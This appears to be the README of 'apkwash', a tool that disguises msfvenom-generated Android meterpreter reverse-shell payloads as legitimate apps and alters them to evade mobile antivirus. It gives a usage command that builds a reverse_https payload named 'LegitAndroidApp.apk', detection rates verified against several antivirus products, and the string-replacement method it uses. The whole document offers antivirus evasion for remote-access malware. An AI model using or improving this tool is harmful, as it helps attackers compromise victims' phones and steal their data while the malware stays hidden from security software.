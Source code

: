 # apkwash
Android APK Antivirus evasion for msfvenom generated payloads.
<br>
<br>
<b> Tested on Kali linux rolling. </b><br>
<br>
<b>Setup:</b><br>
apt-get update && apt-get upgrade<br>
chmod +x apkwash<br>
mv apkwash /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<br>
<br>
<b>Usage Example:</b><br>
apkwash -p android/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -o LegitAndroidApp.apk<br>
<br>
<b>Output:</b><br>
\<LegitAndroidApp>.apk & \<LegitAndroidApp>.listener<br>
<br>
<b>Default values:</b><br>
	payload=android/meterpreter/reverse_https<br>
	LHOST=\<eth0 IP address><br>
	LPORT=443<br>
	output=AndroidService.apk<br>
<br>
<b>Options</b><br>
  -p | --payload 	\<payload>	This sets the payload to be generated by msfvenom.<br>
  -o | --output 	\<outfile.apk>	This sets the name of the APK created as well as the output apk file.<br>
  -x | --original 	\<infile.apk>	Input APK to inject the payload into (later update).<br>
  -g | --generate			Generate a payload using defaults<br>
  -n | --newkey 			Generate a new debug key before signing<br>
  -v | --verbose 			Don't mask output of commands<br>
  -d | --debug				Leaves the /tmp/payload files in place for review<br>
  -h | --help 				Help information<br>
<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 20Mar17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
Verified for Lookout<br>
FLAGGED BY AVAST!<br>
APK:CloudRep[Susp] is the report for the suspicious app on Avast. <br>
Per Avast: "the APK:CloudRep [Susp] is a warning-like message for applications that are very new/rare/previously unseen in our userbase." Based on this alone it doesn't appear we can modify anything to avoid being flagged. It allows the user to accept the risks, or uninstall the app.<br>
<br>
<b>Modifiations:</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<br>
<b>Files:</b><br>
/tmp/payload    (Main files to review: AndroidManifest.xml and the smali files)
<br>
<br>
<b>Debugging</b><br>
Run with '-d' and -'v' to display as much output along with not removing the /tmp/payload files.<br><br><br>
<b>If you are seeing other "Payload".smali files in /tmp/payload/smali/com/var1/var2/ then be sure you have an updated system (apt-get update && apt-get dist-upgrade. I have found an older msfvenom version output a different payload that will be flagged by AVG (1/35 on nodistribute). Just making sure you are completely updated should resolve this.</b>
